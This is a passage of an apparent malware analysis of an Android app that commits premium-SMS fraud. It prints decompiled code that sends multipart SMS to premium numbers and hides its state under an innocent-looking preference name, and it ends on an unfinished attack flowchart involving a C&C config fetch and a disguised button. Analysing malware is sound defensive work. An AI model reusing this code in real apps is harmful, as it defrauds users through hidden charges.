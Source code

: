 ```java
public void sendMessage(String mobile, String content) {
    Bundle bundle = new Bundle();
    bundle.putString(FirebaseAnalytics.Param.ITEM_NAME, "SEND_SMS");
    this.mFirebaseAnalytics.logEvent(FirebaseAnalytics.Event.SELECT_CONTENT, bundle);  // Logs event for attacker tracking
    Intent itSend = new Intent("SENT_HUGE_SMS_ACTION");
    itSend.putExtras(bundle);
    SmsManager sms = SmsManager.getDefault();
    PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
    try {
        if (content.length() > 70) {
            List<String> msgs = sms.divideMessage(content);  // Splits long messages for multipart (higher costs)
            for (String msg : msgs) { sms.sendTextMessage(mobile, null, msg, sentintent, null); }
        } else {
            sms.sendTextMessage(mobile, null, content, sentintent, null);
        }
    } catch (Exception e) { /* Saves failure state, prints error */ }
```

- Sends SMS to premium numbers (`mobile` parameter)
- Handles long messages by splitting them (more charges per message)
- Uses `SENT_HUGE_SMS_ACTION` intent to track success/failure by using PendingIntent to trigger `BootService` 

##### 6. Persistence & State Management

```java
SharedPreferences sharedPreferences = getSharedPreferences("videoLibrary", 0);
this.videoShare = sharedPreferences.getString("videoShare", "");

// After successful SMS:
editor.putString("videoShare", AppEventsConstants.EVENT_PARAM_VALUE_YES);
```

- Tracks whether premium SMS was already sent
- Prevents repeated charges (to avoid suspicion)
- Uses innocent-sounding "videoLibrary" preference name

#### **Attack Flow (Loading class + service):**

{{< mermaid >}}
flowchart TD
    A[Device Boot] --> B[BootService Starts]
    B --> C[Register Receivers]
    C --> D1[Monitor SMS_RECEIVED]
    C --> D2[Monitor SENT_HUGE_SMS_ACTION]
    C --> D3[Monitor MY_RECEIVER]

    E[User Launches App] --> F[Loading Activity Starts]
    F --> G[Start BootService]
    G --> H[Fetch Config from C&C]
    H --> I{Carrier Match Found?}
    I -->|Yes| J[Use Carrier-Specific\\nPremium Number/Content]
    I -->|No| K[Use Default\\nSMS Template]
    J --> L[Build Deceptive UI]
    K --> L
    L --> M{User Clicks\\nDisguised Button?}
    
